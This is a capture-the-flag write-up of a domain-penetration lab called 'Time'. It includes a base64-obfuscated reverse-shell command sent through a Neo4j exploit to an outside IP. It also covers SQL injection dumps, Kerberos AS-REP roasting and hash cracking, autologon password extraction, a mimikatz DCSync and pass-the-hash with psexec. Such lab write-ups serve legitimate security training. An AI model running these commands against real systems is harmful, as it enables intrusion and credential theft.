# Spring and Autumn Cloud Mirror & Time

## Target Introduction
`Time` is a shooting range environment with medium difficulty. Completing this challenge can help players understand the technical methods of proxy forwarding, intranet scanning, information collection, privilege escalation and horizontal movement in intranet penetration, strengthen their understanding of the core authentication mechanism of the domain environment, and master some interesting technical points in the domain environment penetration. There are 4 `flags` in this shooting range, distributed in different target machines.

## Attack Process

Using `Nmap` to scan the given `IP`, and found that `Neo4j` exists, and tried to use `Neo4j` to attack without authorization, [CVE-2021-34371](https://github.com/zwjjustdoit/CVE-2021-34371.jar).


Rebound `Shell` is further utilized.

```bash
java -jar rhino_gadget.jar rmi://39.99.241.178:1337 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMTQuNTUuNi4xMjEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}"
```



Get `flag01` in the `/home/neo4j` directory: `flag{18439d68-f949-42bb-b9e2-c3eef9676b25}`.



Check the network segment information, download the `fscan` to collect intranet information.



```
start ping
(icmp) Target 172.22.6.12 is alive
(icmp) Target 172.22.6.25 is alive
(icmp) Target 172.22.6.38 is alive
(icmp) Target 172.22.6.36 is alive
[*] Icmp alive hosts len is: 4
172.22.6.38:22 open
172.22.6.12:88 open
172.22.6.38:80 open
172.22.6.25:445 open
172.22.6.12:445 open
172.22.6.25:139 open
172.22.6.12:139 open
172.22.6.25:135 open
172.22.6.12:135 open
172.22.6.36:7687 open
172.22.6.36:22 open
[*] alive ports len is: 11
start vulscan
[*] NetInfo:
[*]172.22.6.25
   [->]WIN2019
   [->]172.22.6.25
[*] NetInfo:
[*]172.22.6.12
   [->]DC-PROGAME
   [->]172.22.6.12
[*] 172.22.6.12 (Windows Server 2016 Datacenter 14393)
[*] WebTitle: http://172.22.6.38 code:200 len:1531 title: Backend login
[*] NetBios: 172.22.6.25 XIAORANG\WIN2019
[*] NetBios: 172.22.6.12 [+]DC DC-PROGAME.xiaorang.lab Windows Server 2016 Datacenter 14393
[*] WebTitle: https://172.22.6.36:7687 code:400 len:50 title:None
```

Also download `Stowaway` to the target host, open the `Socks` proxy, and then issue the intranet proxy to further detect.

First test the background login and found that there is a SQL injection vulnerability in the `username` field. Directly use `Sqlmap` to dump the entire data.

````sql
available databases [5]:
[*] information_schema
[*] mysql
[*] oa_db
[*] performance_schema
[*] sys
```

````sql
Database: oa_db
[3 tables]
+----------------+
| oa_admin |
| oa_f1Agggg |
| oa_users |
+----------------+
```

Get `flag02` in table `oa_f1Agggg`: `flag{b142f5ce-d9b8-4b73-9012-ad75175ba029}`



There are 500 mailboxes in the table `oa_users`. After all `dump` is released, combined with the `flag01` prompt `Do you know the authentication process of Kerberos?`, first try enumeration of users in the domain, and finally `74 valid user names are released.

```bash
kerbrute userenum --dc 172.22.6.12 -d xiaorang.lab ~/Desktop/username.txt -t 10
```



When a user of the blasting domain was used, two sets of credentials were obtained. According to the information, it is speculated that the option "Do not require Kerberos preauthentication" should be set, and the attack can be carried out using "AS-REP Roasting".

```bash
GetNPUsers.py -dc-ip 172.22.6.12 xiaorang.lab/ -usersfile username.txt
```

```
$krb5asrep$23$wenshao@xiaorang.lab@XIAORANG.LAB:1756e89a42df4433cdaaed2951369b82$facac115a0d62bd34ebab877d7c4f8079363aed5894d176d80dfba486 91993fa18eb90af9b2b69e146f94508e01ecc0e9a3886956d84c21e390b51055d4db82b434a1f84c1d79c53e976e8d8ff8da8ae1cd229c758464f94995ba15f8fd237ab7d0 e3c4b12d312e4ae4c4bd09b18f6a8cc5bd43e6afedea796e73af9969fb5fc14dadd654030c5ea53b9515a0dfd63edb7fbe2eafac9ee1f57df4d60daf2588844aebf63c25af db2944f2a3fb857bb0c641347544d116f2a4f1127630006f15ed98b0bdadb812a8036d7e47d3883e5a192a543d4ec5a5fa0a60e874f827832de3a816ad5a3d2126396f1abe0

$krb5asrep$23$zhangxin@xiaorang.lab@XIAORANG.LAB:978a3953a5918e506472d8b7f939a82f$ab62517fb779a42b756289c35c64afa94f28fe15effa9f17e45352e3 6d93772a08ef61314d1c77b1145c421af16a6c12747826a57cb192bba3ae2d954c14c0aa764dd53513ccb737a6504fc8b6d5162eeb253e575a5a0bd8a7abe4462295f2198e0 6cc7f1d714920d160a4dcb107394ddd7931f99f1fdc7abaeb33ffc2a78ff81d7ede1d79bdae97aeaf39655c26845d76890e508695e914eb0ae2210785a9690db00c4d71bce 5da0dbeb492fed33d32ea2e12348080e13cace2ee6ee5e25c867fcb71a045bdfd18e49b4058245ee86fefa58433969229dd6cb3c8daac0294a4a7c1f81f9fcbcce51cc4490
```



Use `hashcat` to blast the credentials and get two sets of login credential usernames and passwords.

```bash
hashcat -m 18200 --force -a 0 '$krb5asrep$23$wenshao@xiaorang.lab@XIAORANG.LAB:b6c410706b5e96c693b2fc61ee1064c3$2dc9fbee784e7997333f30c6bc4298ab5752ba94be7022e807af418c11359f d92597e253752f4e61d2d18a83f19b5c9df4761e485853a3d879bcf7a270d6f846683b811a80dda3809528190d7f058a24996aff13094ff9b32c0e2698f6d639b4d237a06d13c309
ce7ab428656b79e582609240b01fb5cd47c91573f80f846dc483a113a86977486cecce78c03860050a81ee19921d3500f36ff39fa77edd9d5614cf4b9087d3e42caef 68313d1bb0c4f6bc5392943557b584521b305f61e418eb0f6eb3bf339404892da55134cb4bf828ac318fe00d68d1778b7c82caf03b65f1938e54ed3fa51b63cdb2994' rockyou.txt

hashcat -m 18200 --force -a 0 '$krb5asrep$23$zhangxin@xiaorang.lab@XIAORANG.LAB:971802b84ce99050ad3c5f49d11fd0b7$6c1be075c3cf2a7695529de2ebbf39c5ec7e5326c9d891dac2107b23 9892f76befe52c860e4e1e2ff6537a5765a6bcb6b8baca792d60765ac0bbe1b3c5e59f3ec51b7426636a437d5df12130eb68d9b17ef431455415671c7331a17ce823e28cc41 1677bed341d3fceefc3451b8b232ea6039661625a5c793e30c4d149b2ed9d2926e9d825b3828744ebce69e47746994c9a749ceeb76c560a1840bc74d2b9f301bb5b870c6805 91516354460dab2238e7827900ed80320dd3a6f46874b1bc8a3a68aea7bd11d0683ec94103f59d9511691090928e98d0d8978f511e71fd9db0067fa0d450c120f3726918d7' rockyou.txt
```

```
wenshao@xiaorang.lab/hellokitty
zhangxin@xiaorang.lab/strawberry
```





Use the two sets of credentials to connect to the `RDP`, use `wenshao/hellokitty` to successfully log in to `XIAORANG\WIN2019`, use `SharpHound` to collect information in the domain, check the `Shortest Paths to Unconstrained Delegation Systems`, and find that the domain user `YUXUAN` has `HasSIDHistory` pointing to `Administrator@xiaorang.lab` (indicating that the user has the permissions of the domain administrator), and there is `Session` of `YUXAUN` on the `WIN2019.XIAORANG.LAB` host.



After checking the session, I found that there is indeed a session of the domain user `YUXUAN`.

```bash
query user
query session
```



Try to grab the password for automatic login and get `yuxuan/Yuxuan7QbrgZ3L`, which can also be obtained by using the tool `WinPEARS`.

```bash
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```



Then, use the `HasSIDHistory` feature of the domain user `YUXUAN`, switch to `yuxuan` to log in to the remote desktop, and directly obtain `flag04` under the domain control machine `\\172.22.6.12\c$\Users\Administrator\flag\`: `flag{2e2ebd95-ce2e-4704-9043-d859644e1c13}`.



Upload `mimikatz` to export the `Hash` of all users in the domain and get the `Hash` of the domain user `Administrator`: `04d93ffd6f5f6e4490e0de23f240a5e9`.

```bash
mimikatz.exe "lsadump::dcsync /domain:xiaorang.lab /all /csv" "exit"
```



Directly to `WIN2019` to get `flag03`: `flag{0991a26e-aa0d-4f26-9dc7-2bb5a10b2d1e}`.

```bash
python3 psexec.py -hashes :04d93ffd6f5f6e4490e0de23f240a5e9 xiaorang.lab/administrator@172.22.6.25
```

